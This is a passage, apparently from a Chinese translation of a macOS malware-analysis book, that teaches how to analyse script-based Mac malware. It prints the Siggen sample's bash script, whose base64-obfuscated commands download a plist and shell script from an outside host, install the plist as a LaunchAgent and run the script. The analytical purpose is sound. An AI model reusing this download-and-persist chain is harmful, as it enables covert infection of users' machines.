 检查这个安装后脚本会发现它会持久性地安装恶意软件（*CrashReporter*）作为启动守护进程（*org.jmttrading.plist*）。

## 脚本分析

一旦你从其分发包中提取了恶意软件（无论是 *.dmg*、*.pkg*、*.zip* 还是其他格式），接下来就可以分析实际的恶意软件样本。通常，这类恶意软件要么是脚本（如 shell 脚本、Python 脚本或 AppleScript），要么是编译过的 Mach-O 二进制文件。由于脚本的可读性，通常比较容易分析，而且可能不需要特殊的分析工具，所以我们从这里开始。

### Bash Shell 脚本

你会发现各种使用 shell 脚本语言编写的 Mac 恶意软件样本。除非 shell 脚本代码经过混淆，否则它们很容易理解。例如，在第三章中，我们查看了一个 bash 脚本，Dummy 恶意软件将其作为启动守护进程持久化。回忆一下，这个脚本只是执行了一些 Python 命令，以启动一个交互式远程 Shell。

我们在 Siggen 中发现了一个稍微复杂一些的恶意 bash 脚本示例。^(5) Siggen 被作为一个 ZIP 文件分发，其中包含了一个恶意的基于脚本的应用程序，*WhatsAppService.app*。这个应用程序是通过流行的开发者工具 Platypus 创建的，Platypus 会将一个脚本打包成一个原生的 macOS 应用程序。^(6) 当运行一个“platypussed”应用程序时，它会执行名为 *script* 的脚本，该脚本位于应用程序的 *Resources/* 目录中（图 4-7）。

![WhatsAppService 的 Contents 文件夹包括两个文件夹，Resources 和 MacOS。Resources 文件夹包含一个名为 script 的脚本，一个名为 Applcon.icns 的 PDF，一个名为 MainMenu.nib 的文件，以及一个名为 AppSettings.plist 的文件](img/f04007.png)

图 4-7：基于脚本的有效载荷（Siggen）

让我们来看看这个 shell 脚本，看看我们能从中学到什么（清单 4-8）：

```
echo c2NyZWVuIC1kbSBiYXNoIC1jICdzbGVlcCA1O2tpbGxhbGwgVGVybWluYWwn1 | base64 -D2 | sh
curl -s http://usb.mine.nu/a.plist -o ~/Library/LaunchAgents/a.plist 
echo Y2htb2QgK3ggfi9MaWJyYXJ5L0xhdW5jaEFnZW50cy9hLnBsaXN0 | base64 -D | sh
launchctl load -w ~/Library/LaunchAgents/a.plist
curl -s http://usb.mine.nu/c.sh -o /Users/Shared/c.sh
echo Y2htb2QgK3ggL1VzZXJzL1NoYXJlZC9jLnNo | base64 -D | sh
echo L1VzZXJzL1NoYXJlZC9jLnNo | base64 -D | sh
```

清单 4-8：一个恶意的 bash 脚本（Siggen）

你可能会注意到脚本的各个部分是经过模糊化的，比如第一段长长的乱码。我们可以识别出模糊化方案是 base64，因为脚本将模糊化字符串通过管道传递给 macOS 的 `base64` 命令（并使用解码标志 `-D`）2。使用相同的 `base64` 命令，我们可以手动解码，从而完全去除脚本的模糊化。
